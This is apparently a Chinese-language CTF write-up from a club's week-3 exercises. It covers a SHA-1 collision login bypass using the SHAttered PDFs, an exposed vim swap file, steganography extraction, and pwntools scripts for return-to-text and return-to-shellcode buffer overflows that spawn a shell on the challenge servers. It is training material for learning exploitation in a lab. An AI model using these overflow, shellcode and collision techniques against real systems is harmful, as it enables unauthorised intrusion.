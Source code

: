 ```yaml
---
###### tags: `Hackersir note`
---
```


# CTF Write-Up Week 3
## SHA-1
從sourse code中得知帳號和密碼的明文要不一樣可是SHA1要一樣，google ``sha1 collision``就可以看到[SHAttered](https://shattered.io/)這個網站，裡面寫了google和CWI如何把SHA1破解，而這題可以運用到裡面的兩個PDF檔。
```python=
import requests
url = 'http://ctf.hackersir.org:12003/'
My_file1 = open('shattered-1.pdf','rb')
My_file2 = open('shattered-2.pdf','rb')
My_data = {'username':My_file1.read(),'password':My_file2.read()}
r = requests.post(url, data = My_data)

print(r.text)
```
## temporary
[Sensitive Data Exposure](https://github.com/shenyenchun/hackersir_note/blob/master/Week%202/Web%20Security.md#%E6%9A%AB%E5%AD%98%E6%AA%94%E5%90%8D%E7%A8%B1)
``http://ctf.hackersir.org:10010/.index.html.swp``

## ret2text
[Return to Text](https://github.com/shenyenchun/hackersir_note/blob/master/Week%203/Pwn_1.md#return-to-text)
```python=
from pwn import *

#r = process("./ret2text")
r = remote('ctf.hackersir.org','10131')

p = 'a' * 0x18 + p64(Address)

r.send(p)

r.interactive()
```

## extract
[Acknowledge](https://www.cnblogs.com/bmjoker/p/9025351.html)

## Cat_OuO
先用binwalk下去分析貓貓，貓貓跟我說它裡面還有一個叫flag.png的朋友，所以用foremost拆解，就把貓貓的朋友請出來了~~~

## ret2sc
一開始執行程式他會噴出一個Address，之後要我們輸入東西，然後程式就結束了，從執行程式上找不到線索，只好用IDA打開看看，還原程式碼後，找不到shell的function，只知道他可以輸入0x70 bytes的內容，如題，我們需要自己手刻一段開啟shell的code，最後用ret2text的概念一樣，把我要執行的address 去cover rip，這樣就可以執行shell了。
[Read more](https://github.com/shenyenchun/hackersir_note/blob/master/Week%203/Pwn_1.md#return-to-shellcode)
```python=
from pwn import *

#r = process('./ret2sc')

r = remote('ctf.hackersir.org','10133')

ad = r.recvline()

ad = ad.split(': ')[1]

ad = int(ad,16)

context.arch = 'amd64'

sc = asm(shellcraft.sh()) + 'a' * 0x40 + p64(ad)

r.sendline(sc)
r.interactive()
```